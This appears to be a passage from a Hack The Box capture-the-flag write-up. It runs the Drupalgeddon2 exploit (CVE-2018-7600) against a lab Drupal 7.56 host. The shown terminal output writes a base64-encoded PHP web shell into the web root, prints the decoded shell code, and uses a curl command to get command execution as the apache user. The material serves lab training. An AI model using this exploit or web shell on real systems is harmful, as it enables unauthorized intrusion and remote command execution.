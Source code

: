 ![](attachments/armageddon_2.png)

There's an RCE exploit for `CVE-2018-7600` named `Drupalgeddon2`.


```bash
┌──(kali㉿kali)-[~/htb/Drupalgeddon2]
└─$ ruby drupalgeddon2.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo QEYTTSOX
[+] Result : QEYTTSOX
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[!] Response: HTTP 200 // Size: 6.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> pwd
/var/www/html
armageddon.htb>> whoami
apache
```